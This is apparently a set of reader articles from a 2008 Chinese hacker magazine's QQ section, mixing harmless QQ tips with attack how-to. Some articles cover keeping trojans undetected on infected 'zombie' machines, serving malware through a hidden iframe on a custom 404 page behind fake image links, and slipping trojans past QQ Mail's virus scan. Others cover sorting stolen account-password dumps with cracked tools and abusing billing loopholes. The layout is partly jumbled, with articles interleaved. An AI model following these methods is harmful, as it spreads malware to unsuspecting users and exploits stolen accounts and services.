## 小谈木马版本的选择

txcbg

相信拥有一款好用、免杀的木马一直是很多叉子的愿望，我玩木马也快一年了，对于木马版本的选择有些个人观点，特写出来和大家交流一下。

至于选择哪一款木马我就不说了，每个人都有每个人的爱好，在你选择了一款木马之后，还面临着一个选择：用哪个版本的木马？很多木马，版本是一直在更新的（相信用过 VIP 版本木马的朋友对这一点会有更深的体会，比如我用的 VIP 版的 PcShare，最近就是平均不到 10 天出一个新版本）。

木马是不是一定要选最新版本的呢？我认为不一定。尽管新版本的马在刚出来时可能是免杀的，但只要是公布了，很快就会被杀毒软件查杀。在木马的交流群里经常看到有人问木马的作者什么时候更新版本，去等所谓的“最新免杀版”。我觉得这种做法不怎么好，且不说木马的新版本有可能不兼容以前的版本，在更新鸡肉上的服务端的过程中还难免或多或少地掉鸡（有一次我给 52 只肉鸡更新服务端，更新好后只剩下了 36 台，后来发现新版本不稳定，又弄回原来的服务端，经过这一折腾，最后只剩不到 20 只肉鸡了）。所以，我认为木马服务端版本的选择在很大程度上决定了你的木马服务端的免杀时间。我认为，选用木马不一定要用最新版本，选一个功能可以满足你的要求又比较稳定的版本（哪怕是比较旧的版本），然后费点时间认真做一下免杀，就可以用上很长时间而不被查杀，比如我现在仍在用的上兴 2007 共享版，刚过年时做的免杀，直到现在杀毒软件仍然查不到。

## 离线挂Q又一新法
——梦网刷分挂Q

细路

由于本人近期学业紧张没有时间挂Q，而自己QQ的等级又不高，所以就上网找挂Q的网站，可是找了很久都没有找到，前几年挂Q可是很火的，现在怎么全没了（小编注：响应国家号召节约用电呗）。黑客精神不容我放弃，手机不是也能上Q吗？于是我使用手机上WAP网寻找，终于皇天不负有心人，让我找到了。在此就跟大家分享一下。

废话不多说了，开始挂Q工程。先准备手机一台（全程都在手机上进行）、UCWEB浏览器（原因是用它比较方便，官方下载地址是http://wap.ucfly.com）。打开UC登录挂Q网站：http://crack.ddbar.com破解者网站，它是专门破解移动梦网收费业务的网站，挂Q业务就是其中一个。打开后的界面如图1所示，点击“刷积分看隐身挂QQ”，进入后的挂Q页面如图2所示，在“破梦网QQ”里登录你要挂的QQ。

这是梦网的隐身显示版，收费是1元，但是这是破解连接免费的，若未破解的话则会出现如图3所示的收费页面。登录成功后，点击UC菜单—导航—收藏，先不要保存书签，在地址里复制jsessionid=后面的18位字符，等号后面问号前面（不包括等号和问号），如图4。然后后退到挂Q页面，在“=积分挂Q=”和“请您刷积分>>>”下输入jsessionid的18位字符，再点“请您刷积分>>>”下面的“获取fkey码”，再点击“我要快速积分”，如图5。

最后得到空白的页面，或者有这句话：“您试图订购的服务不存在SPID = 90503，ServiceID=03010157 梦网首页（看手机情况而定）。”不要慌，再来收藏查看它的地址，复制最后的13位数字，就是3D后面的数字（不包括3D），如图6。

后退出到挂Q页面，在“输入查找到的fkey码”下填入最后的13位数字，然后就是“刷2000积分”了，如图7。忘记说了，积分是用来挂Q的，100分挂1天。最后又后退到挂Q页面，在上面“=积分挂Q=”的“挂机天数”里填入天数，挂机天数最多是30天。使用公式计算可以挂的天数就是：挂机天数 = 当月的天数（30/31）- 当天日期。例如今天是12月15日，即最多可以挂31-15=16天，所以建议每月的1号设置挂Q，挂得最长嘛！成功后如图8所示，经过我的测试，系统会在凌晨3点到4点左右帮你挂Q的。

这里挂Q是利用移动梦网的广东风采版面漏洞刷分挂Q的，移动梦网的安全也做得不怎么样。在破解者网站里还有移动梦网收费业务的破解，有兴趣的朋友可以看下。


## 教你轻松迁移BLOG至QQ空间

小地瓜

众所周知，QQ空间是一个专属于自己的个性空间，它提供了与外界互动交流的功能，这样自己在现实里无法释放的喜怒哀乐，就可以在网上随意发泄了。不过有的用户在拥有QQ空间之前，就已经在其它的BLOG（比如Sina、Sohu之类的门户站点上）建立了自己的心情诉说地。俗话说“一山不容二虎”，那么如何将BLOG里的文章毫不费劲的转移到QQ空间里呢？QQ空间搬家工具就可以帮我们这个忙。

打开浏览器，进入到http://n.qzone.qq.com/move/move_login.htm搬家工具页面，然后在其右侧“请您登录”的对话框内将自己QQ号及密码分别输入到相关标签后，单击“登录”按钮，就可进入到“搬家工具”页面（图1）。在“博客”列表标签，从中选择你要搬家的BLOG，并在其后面标签输入BLOG的用户名以及下面当前显示的验证码后，单击“提交搬家申请”按钮，系统将会在12小时内帮你搬家完成，并且还会发送一条通知给予提醒。但是能够搬家的BLOG仅限于腾讯列出的那些BLOG，如果自己是使用的别的BLOG程序，那么还是老实点自己搬家吧。


## 只想对你说的秘密——QQ日志加密

尐爆

最近我开始捣鼓QQ空间了，所以就发现了一点点问题，QQ空间是可以设置密友的，可是有时候你既想要点击率，又有那么一两篇文章不想被别人看到，只想让你心里的那个人看到，那怎么办呢？只让你心中那个人看到，有什么办法不把QQ空间设密码，也不加密友，别人能正常访问，但是他看不到你加密的日志的文章呢？

通过我制作的Flash和腾讯推出的禁止一键转栽功能相配合就可以轻松搞定，这里要用到一个动画：http://data1.flash.qq.com/0/0/404/173-1194701888.swf（图1）。这个动画的网址大家可以使用迅雷、FLASHGET等下载软件来下载，然后使用QQ号码登录FLASH.QQ.COM注册一个自己的空间然后上传上去，接着进入查看一下源代码，然后查找一关键字内容填“*.swf”，就可以得到一个类似于以上那个动画的网址了，这是防止大家都使用这个网址，人多会卡的。


图1

大家在自己获得的网址后加上“?key=你想要设置的密码”，例如我的就是“http://data1.flash.qq.com/0/0/404/173-1194701888.swf?key=xiaobao”，密码都是自定义的，除了你自己知道外，没人知道的。这样大家试着访问一下就会发现，输入你后面设置的密码就可以“芝麻开门”了o(∩_∩)o

下面这步比较重要，进入QQ空间写一篇日志，最好是将文字居中，千万不要只有一两句话，不然出不来动画和效果你可别怪我（图2）。


图2

写好后把光标移到文章上面，然后点击“插入FLASH”，网址就是之前的那个http://data1.flash.qq.com/0/0/404/173-1194701888.swf?key=你想设置的密码，宽为666，高度由你自己的文章长度来决定。这个很重要，你最好多试几遍，把文章挡住了就可以了。然后选择透明的横纵坐标，文章短的话“0,0”就可以了（图3，图4）。别忘了选择“禁止别人转载你的文章”，因为转载后别人一编辑就知道你写的是什么了。这里的效果就是让这个FLASH盖住你要保密的文章，提示输入密码呢，可以在未盖住的部分加上提示，让可以看到的人能正确输入密码。

当然我们也可以使用这个来设置空间密码：

- 1、登录QQ空间→点击QQ空间上面的自定义。
- 2、点击新建模块→选择创建FLASH动画模块。
- 3、模块名称随便，使用一个空格最好，FLASH地址上输

## QQ 秀也爆最新漏洞

终于盼到放假了，回到家我就打开了电脑准备开始我的黑客之旅，无意间想起了一同学叫我帮他申请一个QQ号，于是我就进入了腾讯的帐号申请页面（图1）。


按照腾讯的指定我填写好了相关的内容，点击下一步，系统提示：“你的帐号已经申请成功，你的帐号是QQ：XXXXXX”（图2）。接着在下面还有提示，点击进入免费领取QQ秀（图3）。


相信大家申请过QQ号的话，都应该知道这个提示吧！虽然这个只能给新申请的QQ号免费领取，但是我们进入下面这个地址一样的连老QQ号都可以领取了，而且还可以无限领取，这就是QQ的最新BUG。进入后的地址是http://show8.qq.com/my/inc/reg02.html?style=1&sex=M。下面就来介绍一下利用过程，先打开以下的网址，根据自身情况而定。


人上面那个FLASH地址→更多设置随便→输入验证码→确定保存。
4、使用鼠标调整一下FLASH的大小，拉到整个页面那么大。
5、最后点击保存，好了，添加完毕！

这个我就不演示了，可能大家都发现了一个问题，就是第一次调出动画的时候会没那么快，这是因为浏览器在第一次浏览的时候会把FLASH文件下载到本地保存到缓存中，第二次就从缓存中读取，速度就会快很多了。如果大家都用我的地址的话，FLASH下载的时候会更慢，这个时候里面的内容就不保了，所以一定要自己去http://flash.qq.com申请一个地址，这样就能最大限度保证不卡。最后再送给大家一个刷花的代码，虽然同样不可以摘，但这个有7个入参：javascript:window.top.space_addItem(7,20981,0,2,0,1,2);

小编点评：文章的总体思路就是利用可以设置密码的flash文件来覆盖住本来的文章，这样做表面上是可以随意设置密码，但是别人查看页面代码的话，直接找到这个flash文件的URL地址，就可以找到后面的key带的参数从而进入并且查看日记了，但总的来说思路是不错的，值得鼓励！


图4


嘻爷（牛启源）

http://show8.qq.com/my/inc/reg02.html?style=1&sex=M （男装）
http://show8.qq.com/my/inc/reg02.html?style=1&sex=F （女装）

比如我选择男装的网址，进入后就会有以下几个选择：“活泼、温柔、高贵、性感、酷炫、整洁、另类”（图4）。


图4


选择自己喜欢的类型，接着下一步是给出三个QQ秀供选择。就选择活泼的吧，选择一个自己喜欢的。点击选择“就要这套”后它就会显示系统连接超时，请重新登录，这是正常的，千万别怕有什么挂马之类的，这可是腾讯的官方网站（图5）。


图5

按要求填入自己的QQ帐号和密码，输入完验证码后点击登录，又回到了刚才的页面。按照刚才的要求再次选择好。看看，是不是显示QQ秀领取成功了。然后登录自己的QQ，点击刷新就会看到自己的QQ秀已经显示出来了，就这么简单，呵呵，大家都快去领取属于自己的“免费”QQ秀吧！

# QQ 宝典

## 非QQ黄钻也来玩转空间域名

MISHELL

前阵子去朋友的QQ空间，发现空间等待页面打开了申请个性空间域名的广告，于是我就点击进入了申请页面来进行申请，资料填写完毕后系统却告诉我必须是黄钻才能申请。第二天到班级后听同学也在谈论这件事，大概就是说为了申请到个性空间域名，花了10个大洋买了黄钻。回家后我就想：难道要个性空间域名就非得让腾讯从我等小菜手里抢走这10元钱吗？当然不，其实早就有人想到腾讯会推出空间域名这招来诱惑消费者，所以那些朋友早就把免费个性空间域名给我们准备好了。

打开浏览器，输入http://www.qqgz.com/qq/ 或者 http://www.mmqz.com/qq/（图1），在上面填写你的QQ和你的性别（就是GGQZ.COM或MMQZ.COM）后点击“检查是否可注册”来进行检测。如果你的域名没有被别人申请的话就会出现如图2所示的提示，然后我们点击下面的“立即申请QQ空间域名 请将申请的地址放在QQ资料里”就可以了（图3）。

来检测一下是否可用，点击上图中的任一网址，正常进入了我的qzone（图4），就这么简单，个性域名就有了，黄钻的域名必须是数字+字母而且还有长度要求，而我们的这个域名却没有这两个要求，怎么样？还不赶紧让QQ空间域名也个性一下！


## 打造迷人的QQ尾巴链接

然之

对于QQ尾巴大家都听说过，但是现在就连我弟弟都知道不可以点那些链接了。那么，怎样才能让QQ尾巴发挥的淋漓尽致呢？大家先把这段代码保存为*.htm：

 <title>http://www.baidu.com/img/logo.gif</title>
 </a>

```html
```

保存打开后，再使用IE打开http://www.baidu.com/img/logo.gif，把两个页面对比一下，是不是一样呢（图1）？猛一看是一样的，但仔细看却还是不同，因为前者可以在源代码中加段“<iframe src=网页 width=0 height=0></iframe>”或者别的什么。但是，你把www.xxxx.com/*.htm使用QQ发给别人说是什么美图之类的，别人会打开吗？

一般的网站空间都有自定义的404页面（有的为广告或提示），如果没有的话，在根目录放一个.htaccess文件（很强大的一个配置文件，这里用来自定义404页面，其详情解释大家可以参见http://baike.baidu.com/view/91163.htm），我们就可以利用它来掩饰我们的真实地址了。


**小知识：404页面定义**
当用户试图通过HTTP或文件传输协议（FTP）访问一台正

> > 2008合订本上卷

## 2008 合订本上卷

# QQ 宝典

在运行 Internet 信息服务（IIS）的服务器上的内容时，IIS 会返回一个表示该请求的状态的数字代码，该状态代码记录在 IIS 日志中，同时也可能在 Web 浏览器或 FTP 客户端显示。状态代码可以指明具体请求是否已成功，还可以揭示请求失败的确切原因，而 404 就是指定未找到所浏览的网页。

知道了 404 是什么意思就好办了，如果把上文那段代码加上挂马代码保存为 404.htm，再将空间中的 404 错误指向这个页面（这个设置页面是空间服务提供的，并不是每个主机都会有），如图 2，然后再发给 QQ 好友一个类似 http://www.XXX.com/picture/20071212/mei1.jpg 的链接（这个图片文件是不存在的，目的为消弱对方警惕性和转向挂马的 404 错误页），那么他会点吗？

来测试一下，正好借助色戒电影煽煽情，如图 3。


呵呵，成功了，打开后的页面如图 4 所示。我们的任务就是把类似的链接制作的越逼真越好，解说越诱惑人越好！如果象图 5 所示那样进行发送呢？手机发送还没听过有带 QQ 尾巴的。


本来利用 404 页面挂马是我们在入侵过程中一个很常用的挂马方式，效果好又不容易被察觉，这次用在了 QQ 尾巴上，当你给别人发送一个图片链接时，对方很容易的就会去点击查看（这也要求对方具备一定的网络常识和惯性思维，碰到草木皆兵的菜鸟就不行了。因为这种方法适用于 QQ 好友，所以大家不要透支自己的信用哦！

（本文所涉及到的代码和页面已收录到光盘中）

## 绕过QQ问题验证

清晨 say 晚安

看着QQ上要么无(的)几个QQ图像在亮着，找不到人说话 心里真是郁闷啊!于是该加加好友了!于是我打开“查找”，寻找和自己差不多的人加了起来。顺利的加了几个好友后，突然弹出来一个需要回答他的问题后才能加对方为好友的QQ。问题是：“我爱的人是谁？”晕了半天，我要怎么知道啊，那我还加你干嘛。我郁闷的准备关掉他然后再去添加一个好友，但是忽然想到了QQ是不能加你的，但是腾讯还有个TM呢，TM也不能加吗？我连忙切换到TM，点击“添加和查找”，输入他的QQ号码，那个该死的疑问句没有出来，顺利的加对方为好友了。然后我又切换到QQ状态，他已经安安静静的在我QQ好友里挂着了。


## QQ宝典

### 菜鸟搞定另类的QQ密码

冰河

在看了07年第9期杂志的“另类的QQ密码攻与防”一文后，感觉作者的思路非常好，可是后来我仔细想了想，感觉作者考虑的还是有些不太周全，下面就看我如何搞定另类的QQ密码吧。

首先，o和0混用法在网页中虽然是看不出有什么不同，但是我们把密码粘贴到记事本中就能轻易的分辨出来了（图1）。其实就算是不容易看出来，但是仔细视察也能看出不同之处的，可以对网页中的0和大写的O截图，然后将其放大就能观察出来了``_``。对于智能ABC里的特殊字符和空格，这个在网页和记事本中都看不出来，难道没有办法了吗？答案是否定的。虽然我们直接分辨不出来，但是电脑却能分辨出来，可以把密码转换成其它的格式或者让电脑分辨就可以了。我专门写了一个分辨密码的小软件（图2），只要把密码复制过去，点击“分辨”按钮就可以分辨出来了（图3）。看到了吧，已经把我们不认识的字符转换成能辨认的了，看来要想自己QQ不被盗还得学X档案学习如何来保护我们的QQ呀。这又验证了那句古话：“没有绝对的安全”。同时也希望大家不要去搞破坏，玩玩就好了，学到技术才是最重要的。

(本文所涉及到的BT密码分辨器已收录到光盘中)


### 让菜鸟都来分享我的QQ心得

如果你有以下症状的话请看本文：
1. 费了很大的劲给好友买了个QQ，却被人家不小心给弄丢了
2. 因为看X档案的缘故，手里的一堆QQ没有时间查Q币
3. 想要5钻会员等业务，却一直MONEY、二没QB、三没RP（55555，没人送哦）
本文针对以上症状通杀，并且药到病除，价格嘛，免费，好了，下面就开始进入主题吧。

1092


#### 一、轻松设置安全密码。

关于QQ安全的文章有很多，但大多数人却都认为只要设置了强度高的密码或借助第三方软件，我们的QQ就安全了。然而使用过QQ木马的朋友都知道，不论你的QQ的密码有多复杂，木马都会100%的截取到，第三方软件更是漏洞连连，那么正确的做法该如何做呢？

目前大部分盗QQ的人都会使用软件来整理盗完的QQ号码（可以去看看X档案的QQ宝典，介绍的比较详细哦），一般的收信QQ格式为：“123456----123456----218.23.173.94----安徽省亳州市”（图1），而扫号软件一般需要把IP等信息去掉，例如大部分人使用工具“文本整理”等。然而这款软件在设计上却有缺陷，假如我们的密码为“123456-”，“-”也会被软件忽略掉（图2），因此就算不小心密码被盗了，对方使用扫号工具扫到的结果也是密码错误，让专业的扫号查询工具诸如TQQ、FQQ、CQQ等通通变成了白痴，进而保证了我们QQ的绝对安全。

#### 二、批量分析整理号码、扫QQ信

首先启动QQ号码分析1.7，然后导入号码（格式也为QQ号——密码），程序会自动列出所有的号码（图3），还支持自定义筛选，例如要查询7位AAA开头的号码，在下

| 序号 | QQ | 状态 | Q币 | 密保 | Q点 |
|---|---|---|---|---|---|
| 1 | 64465 | 密误 | | | |


面输入“AAA????”就可以了，简单吧，这样就不怕好号码找不到了。

扫QQ信就要用到另一个软件了——XQQ 1.2，这个软件最大的特点就是有破解版的，无任何限制，还免费，最适合我们了。首先运行破解补丁，工具顶端会显示“已注册”三个字，说明破解成功。打开后点导入，选择从你整理过的文本文件导入或是自行按照格式添加都可以（图4），点击确定。其查询会有很多选项，不建议全选，那样的话速度会很慢。

#### 三、另类“刷”QQ 业务

以前刷QQ业务的方法都不好使了，是不是没的玩了？这里我要教大家的是使用手机卡刷5钻会员业务+所有服务号码2个月内无限发，什么？你已经拿自己的废卡绑QQ了？不过普通的卡3天就会掉哦，腾讯也在进步嘛。这次的主角是“GSM 预付费手机卡”，一般8-15元一张，送20元话费，可以用来绑业务，这个卡最大的优点就是欠费后还可以发短信（只能发服务信息，不能发给手机号码）。知道怎么用了吧，可以用来防止腾讯冻结业务。

（本文所涉及到的QQ号码分析1.7、XQQ 1.2已收录到光盘中）

### 菜菜们的QQ空间成名路

梁天爽

相信不少叉子都拥有自己的QQ空间吧，许多人都往QQ空间上投入了很大的精力和不少的心血，他们的QQ空间也许内容丰富，页面精美华丽，但人气和知名度却总是不高。这就是网络，要想在浩如烟海的QQ空间里拥有一点的名气，那太难了。这不仅需要新颖多彩的内容，华美的界面，更要有高超的技术，相信看了我的这篇文章后，或许这一切就会变得简单了。

第一招：打好成名基础——QQ 空间人气疯狂刷

空间人气是关乎你空间出名与否的最重要的因素。你也许会认为空间人气差不多够200就满了，但实际上这却是错误的一个认识，虽然界面显示最多200，可事实上却是没有上限的。你也许又会问，别人看不到的错别人气再高又有什么用？人气决定了你的世界排名，这是至关重要的，排名越靠前，被别人随机看到的机率就越高。我们打开www.qzone.qq.com，点击上方的“登录QQ空间”；登录后在左上方就会看到你QQ空间的真实人气与世界排名了，如图1。

既然已经知道了人气的重要性，我们就要在人上下功夫了。网上用于刷QQ空间人气的软件有许多，我给大家精选了一套最好的免费软件。打开QQ空间人气精灵V3.88贺岁版，这个软件大家可以放心使用，不属于恶意程序，腾讯是不会封杀的，其主界面如图2所示。

这个软件我认为注册后还不如不注册好用，软件提供了两种刷法，即“普通模式”和“VIP模式”，普通模式下6秒钟刷一点人气，注册用户则是3秒钟刷一点人气，建议使用普通模式，速度太快的话一是不稳定，二是有可能会被腾讯封号，那样的话可就得不偿失了。在软件最上方的框里输入要想刷的目标QQ号码，不需要密码。在输入号码栏的下边选择刷的模式，默认没有注册为6秒钟刷一点。模式框下是“使用统计”，这里会列出已经刷的次数，工作时用和预计每小时刷多少等信息。再往下是大号的空间信息，很详细的罗列出了各种属性，包括空间排名，空间等级等。再往下的“QQ队列”里输入用来刷人气的QQ号，要求输入QQ的密码及验证码来进行登录。这里可能会有叉子不明白，为什么要这样呢？不会要盗我的QQ吧？我来解释一下，软件的工作原理是使用大量的QQ重复访问指定的QQ空间，以达到为其增长人气的目的，而腾讯又有规定，必须登录的用户访问空间才有效，但该用户不开通空间也可以。所以，我们大可放心，退一万步，即使要盗号，顶多丢个刚申请的小号，要刷的那个QQ号反正不需要你输入密码。另外还要注意一点，这里要输入尽量多的小号，因为腾讯有规定，一个用户一天最多为同一个空间增加100点人气，举个例子来讲，如果我们登录20个小号，在当天最多为大号提供2000点人气，并且耗时12000秒，如果需要更多的话，就只能等到第二天再刷同样的数量。所以，尽可能的登录更多的小号，软件使用完一个号码后会自动在队列中换到下一个，没有太多QQ的话就快去注册吧，建议把小号帐号密码保存到一个文档里，软件支持从文本导入，点击最下面“添加号码”，再点“批量导入”，选择你保存的记事本文件导入就可以了，如图3。


## QQ宝典

记事本保存格式为“号码——密码”，这样也方便下次的使用。腾讯规定一个IP一天最多申请3个QQ，我们可以使用代理轻松突破这个限制。

同时，我们更提倡分享，可以到软件论坛上的号码共享版块分享使用。另外，软件还支持自动关机，一切设置完闭点击右上方的“开始工作”按钮就开使刷了。我们可以看到中间信息栏开始变化，可以看到我们刷了多少人气，如图4。这个工具的使用还算简单吧。


第二招：搞好QQ空间人气关系，构建大范围朋友圈

你的QQ空间一般都是谁来看？肯定是好友来看了！所以，构造一个大范围的空间好友圈是尤为重要的。如何构建呢？这里就用到了一款软件——“QQ空间小秘书V1.86贺岁版”，这款软件在前几期的黑客X档案上曾经提到过，所以我简单说一说就行了。打开这个软件，如图5所示，登录你要构建朋友圈的QQ号码。其工作界面如图6所示，你可以给自己的好友快速留言，快速回复，但是要输入验证码。

接下来介绍上次没有提到的特色功能——“超级互踩计划”，这是一个超强的QQ空间互踩功能，可以让你不再忍受QQ空间无人光顾的冷清，不再烦恼找不到互踩对象，让你真正享受万人互踩的超爽体验。这个功能采用了先进的技术与人性化的设计，确保你在每一轮互踩中回踩率高达98％以上。点击“使用超级互踩”按钮，踩完队列中的所有空间，就成功加入了超级互踩，别人也会如此来给你留言，好玩吧？付出多少努力就有多少收获！这样，你就建立了一个大的朋友圈了，你的空间就一步步走向成名了！

我写本文的目的，不是号召X的战友们都去这样自己炒作自己，但无论如何，本文所介绍的方法将会使你的QQ空间成名变得更容易，只要你日复一日的这样坚持下去，你的空间成名就指日可待了！

（文章中涉及到的QQ空间人气精灵V3.88贺岁版和QQ空间小秘书V1.86贺岁版已经收录在了光盘中）


### QQ游戏形象随唰唰

侯金星

QQGame2006beta2版本以上的游戏大厅已经开始支持QQ游戏角色系统，QQ游戏角色系统是全新的in-game角色系统，是玩家在QQ游戏中形象的化身。如果你喜欢QQ游戏，那么你肯定对那一套套炫酷的角色形象非常感兴趣吧。

我们先来到“游戏商城”，虽然这里有免费区（图1），只是这里的免费物品都是些游戏表情。想不想免费得到花钱的东西呢？下面大家就跟我一起收获天上掉下的馅饼吧！在“牌类游戏”中找到斗地主，没有玩过的朋友可以安装一下（不会玩斗地主的小菜不要担心，以下的操作不需要会斗地主）。我们进入“北方专区二（网通，角色版）”，其它的游戏区经过测试可能不会成功（图2），在下面会弹出一个“创建您的QQ游戏角色”的窗口（图3）。

在这里可以建立一个游戏角色，建立的角色也就是你的游戏形象。整个过程只需要两步就可以完成（图4），成功创建角色后系统还会赠送3Q币的购物券。


> ##### QQ游戏购物券的使用说明：
QQ游戏购物券可以在QQ游戏商城内使用；QQ游戏购物券不支持购买道具和主题专区栏下的物品；购物券的有效期只限于当月购买，将会在每月月底清空，务必在有效期内使用。

## 2008合订本上卷
QQ宝典


建立的游戏形象可以直接显示，在“我的物品”中可以看到（图5），价值10几个QQ币呢，而且是两个月的使用期限。3Q币的购物券当时可能无法显示，只要你退出游戏然后再次登录就可以了，其使用方法参考QQ游戏购物券的使用说明。
不论服饰还是表情中都有相当多的3元以下的物品，快去淘一淘你喜欢的吧（图6）。


3Q币的购物券不过瘾，一会儿就用完了，没关系，换个QQ号继续刷，再赠送给你的主号就可以了。QQ游戏商城中的物品是可以累积时间的，多买几次就可以延长使用时间。这或许可以算是QQ游戏的一个小BUG吧，小菜们抓紧时间多刷点QQ游戏商城中的物品吧！

### 挂Q宠，我时刻都行！
sssshhhwwwyyy

春节期间腾讯公司按照惯例，对QQ聊天软件增加了QQ2008贺岁版（QQ2008Spring），同时QQ宠物版本也提升到了2008版，其实早在QQ2007 II版本时QQ宠物就已经升到了2008版。对于我们这些QQ爱好者来说这是利弊双存，有利的方面是我们可以体验到新版QQ宠物带来的娱乐，有弊的方面是我们原来的挂宠软件更新太慢，只能眼睁睁的看着自己的宠物不能挂机，好不容易等到了软件更新，结果却又因为BUG太多而影响使用！怎么办呢？各位别急，因为解决的方法很简单。
虽然更新了宠物资源包，但是我们仍然可以使用07版本的主要文件覆盖掉新版本的文件。经过测试只要覆盖掉QQ文件夹QQPet中的QQPenguin、QQPetCommunity.dll、QQPetResDownload.dll这三个文件就可以瞒天过海（图1），继续使用我们的旧版本宠物软件了（图2），真是居家旅行，挂宠必备哦，挂上宠物，我们就可以去喝咖啡喽！（本文所涉及到的07版QQ宠物文件已收录到光盘中）


### 腾讯搜招——QQ音乐继续破

在前几期的黑客X档案里曾经介绍过QQ音乐的免费添加方法，既有通俗易懂的方法，也有稍微复杂一些的方法。或许是腾讯发现了自己在QQ音乐这方面的缺陷吧，所以就做了一些处理，导致使用以前介绍的方法获得的音乐都无法播放，更别说下载了。我稍微研究了一下便发现了其中的原由。

#### 一、为什么以前的地址失效了

以前抓包得到的音乐地址，比如http://stream*.music.qq.com/*.wma已经失效了。看起来好像是腾讯做了一些限制，但实际上腾讯只是对地址稍微进行了修改。我反复抓包后确定，只需要把原地址http://stream*.music.qq.com/*.wma中的music改为qqmusic，得到的新地址http://stream*.qqmusic.qq.com/*.wma就是新的音乐地址了。

#### 二、获取音乐地址

首先在空间音乐盒里搜索音乐，找到后复制该歌后面“试听”按钮的地址，如图1。然后把地址里的数字与这个地址（http://stream★.qqmusic.qq.com/◇.wma）里的符号进行替换，使用第2个数字10替换掉★，第一个数字10410707将其第2个数字改为2，也就是12410707并替换掉◇，得到音乐源地址，当然也可以抓包得到。


#### 三、将音乐添加至QQ空间

腾讯以前就已经做了限制，不能添加诸如http://stream*.qqmusic.qq.com/*.wma形式的音乐地址。所以就需要进行URL的转换，在去年12月的杂志中介绍了301url.com。不过这个网站有时候不稳定，甚至有时候服务器会出故障。所以我给大家推荐另一个网站THNLNK，其具体网址为http://thnlnk.com/ThnLnk，如图2。将得到的音乐地址填入Link/URL那一栏，在Title那一栏随便填写5~7个单词（英文的，以空格分开），最后点击“ThnLnk it!”，就会出现如图3所示的几个地址，这些地址都是有效的，推荐大家从最下面那2个地址中选择一个填入QQ空间添加歌曲的地址栏中（注意：只能在添加歌曲的时候填写地址，过后再修改成这个地址就没用了）。


#### 四、最后

腾讯还真是小气，连音乐也不给我们小菜用，我们就只能“偷”了，今后不知道腾讯又会出什么怪招，不过我们见招拆招，也就不怕它了。

### “红豆”与免费QQ秀

如何获得免费的QQ秀呢？相关的文章以前的X档案上也曾刊登过不少，但唯一的问题就是这类文章的时效性都很短，方法很容易过时。今天我同样为大家介绍一种免费获得QQ秀的方法，大家一定要抓紧时间啊。

经常玩QQ的朋友都知道最近QQ新增加了一个叫做“红豆”的道具，我们今天无限次刷QQ秀用到的就是它。首先申请一个新的QQ号，申请成功后我们单击第二排的第一个图标，就是“免费领取QQ秀”，如图1。

接着就会出现许多漂亮的QQ秀供我们选择了，选择一套自己喜欢的QQ秀，单击“我要这套”，如图2。好了，接着就会出现如图3所示的页面，提示我们注册QQ秀成功，并赠送我们2500个红豆。呵呵，这下有的用了。

在此之前我们先看一下腾讯的最新规定，如图4。从图中我们可以看出，使用红豆可以将系统赠送给我们的QQ秀转赠给他人，呵呵，想到怎么利用了吗？

选择上面“我的QQ秀”标签，然后在“我的物品”里面就可以看见系统免费赠给我们的QQ秀了，如图5。

## 2008 合订本上卷

# QQ 宝典


中填入我们的大号，单击立即赠送就可以了，是不是很简单呢？特别提醒一句，不要忘记先在你申请的新 QQ 号中加你的大号为好友。同时因为腾讯的限制，新加好友必须 7 天以后才可以赠送 QQ 秀，下面我们能做的只有等待了。还有，赠送 QQ 秀时不要忘记将已穿上的 QQ 秀全部脱掉，否则是无法赠送成功的。


#### 什么是 SA 权限

SA 是 MSSQL 数据库的默认管理员帐号，拥有系统权限。第一次安装 MSSQL 时，如果没有或过于简单的设置了 SA 的密码，别人就很容易猜解你的密码，通过 SQL 连接器等工具连接到你的 1433（MSSQL 默认端口），利用扩展存储过程执行系统命令。注入时也有很大机率碰到 SA 帐号启动的数据库，基本上就可以拿到系统权限。所以现在很多网站都不用 SA 帐号连接数据库，保证服务器安全。


# QQ 宝典
## 2008 合订本上卷

## QQ 空间也克隆

疯狂小猪

今天给大家介绍一个可以克隆 QQ 空间的网站，网址是 http://www.qzone6.com:8080/，打开后的界面如图 1 所示。


页面右边有几个服务器登录按钮，我们找一个人数少点的点击登录，然后输入 QQ 号和密码，点击进入系统，如图 2。接着就会出现如图 3 所示的页面，在这里我们可以克隆别的空间，只需要填写对方的 QQ 号码，点击“开始复制”即可，几分钟的时间一个漂亮的空间就归你了。目前腾讯已经封了大量的免费皮肤代码，造成非黄钻用户克隆空间效果下降，如果自己是黄钻用户的话，才能克隆出和对方完全一样的空间装扮。


被克隆的空间如图 4 所示，而我的测试空间如图 5 所示，可以看出克隆后的效果大体一样，因为我不是黄钻用户，所以还是少了点好玩的装饰。


## 菜鸟也来玩转 QQ 邮箱

rain01

### 一、附件查毒出漏洞

本想给好友发送一个能够躲过金山查杀的上兴，却被 QQ 邮箱的卡巴斯基查毒引擎给拦截住了，也正是因此我发现了 QQ 邮箱在附件查毒上的一个小漏洞，且听我仔细道来。大家都知道 QQ 邮箱的文件中转站吧，绕过卡巴查毒引擎就全靠它了。

首先，我把一个未经免杀的木马文件上传到中转站里，可以看到上传成功，并没有受到拦截，如图 1。接下来，再通过添加超大附件的方式将木马文件寄出，这次可以看到木马文件并没有受到卡巴查毒引擎的阻拦，成功的发送出去了，如图 2。使用这种方法木马保存的时间虽然根据 QQ 会员等级的不同而有所差别，但是至少七天的时间应该足够用了。


### 二、空间更新邮箱看

如果小菜们钟情于QQ邮箱的话，那么当你的邮箱升到六级以上时就能够收到系统发来的邮件，通知你有新的功能可以使用，如图3。按照邮件的说明，我们可以发现左侧多出了一个“我的阅读空间”，如图4。当好友的空间里有更新的话，都会在这里集中显示出来，省去了我们挨个空间查看的麻烦。而且更重要的是，即便你无法进入好友加过密的空间，只要对方的空间进行过更新，其更新的内容均能够出现在这里。不仅如此，如果你的朋友有其他博客的话，可以点击“添加订阅”来添加你希望订阅的博客（图5）。这样，QQ邮箱可就真的成了你阅读所有博客的窗口了。至于如何将QQ邮箱升到六级，大家可以随便申请一个新邮箱，多用QQ邮箱向它发些邮件就行了。


以上就是我的新发现了，希望能够给各位带来一些方便，要是大家也有什么好的新发现，希望也写出来与我等菜鸟分享一下哟。

## 远程视频嗅探器骗局大揭秘


这天在网上看到了一款名叫“远程视频嗅探器”的软件，居然不用种木马就可以强制视频，感觉好神奇。既然有这么牛的东西，我当然要好好研究一下了。一共有三个dll文件，一个主程序和一个注册机（其实也就是木马），如图1。

运行主程序，在界面下方的“对方IP 地址”栏填上想视频的IP地址（图2），然后点击“连接”，程序提示说需要注册（图3）。

